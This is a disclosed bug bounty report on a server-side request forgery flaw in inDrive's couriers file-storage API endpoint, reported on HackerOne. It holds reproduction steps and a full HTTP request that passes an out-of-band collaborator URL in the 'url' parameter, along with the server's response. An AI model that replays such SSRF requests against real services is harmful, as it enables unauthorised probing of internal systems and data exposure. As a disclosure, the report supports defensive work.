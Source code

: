 # SSRF in https://couriers.indrive.com/api/file-storage

## Report Details
- **Report ID**: 2300358
- **URL**: https://hackerone.com/reports/2300358
- **State**: Closed
- **Severity**: high
- **Submitted**: 2023-12-31T13:31:17.102Z
- **Disclosed**: 2024-01-16T17:11:29.622Z

## Reporter
- **Username**: cypher-28
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: indrive

## Vulnerability Information
## Summary:
SSRF in  ` url ` parameter in https://couriers.indrive.com/api/file-storage

## Steps To Reproduce:

I will try to demonstrate it using burp collaborator 

  1. Request https://couriers.indrive.com/api/file-storage?url=http://va99zfc0lxpm75ogmcjhz8xij9pzdo.oastify.com  ( replace ` url ` value with your burp collaporator )

  1. Notice the contnet being displayed in the response and also the Interaction in your burp collaborator

* The Request 
```
GET /api/file-storage?url=http://va99zfc0lxpm75ogmcjhz8xij9pzdo.oastify.com HTTP/2
Host: couriers.indrive.com
Sec-Ch-Ua: "Google Chrome";v="119", "Chromium";v="119", "Not?A_Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ar;q=0.8


```

* The Response 
```
HTTP/2 200 OK
Authorization: Bearer undefined
Content-Disposition: attachment; filename="file
Date: Sun, 31 Dec 2023 13:19:04 GMT
X-Envoy-Upstream-Service-Time: 678
Server: istio-envoy
X-Cache: Miss from cloudfront
Via: 1.1 33c6e91bdc193e34e8dcc80edc466018.cloudfront.net (CloudFront)
X-Amz-Cf-Pop: MRS52-P2
X-Amz-Cf-Id: 9GuBZr1A03ZS0bEYUbDp80JZj8dNYCE4YoVUImLD5RU15dEM-vs5fQ==

<html><body>6zy5d1pwzab93qopx8jq2ezjigz</body></html>
```


## Supporting Material/References:

████
██████████
████████

## Note
If you request any website like for example ` www.google.com `,  ` https://couriers.indrive.com/api/file-storage?url=https://www.google.com `you will see its html content being displayed in the response 

## Impact

The ` url ` parameter doesn't sanitize The input properly  which can make the Attacker to request any website he wants

## Attachments
No attachments
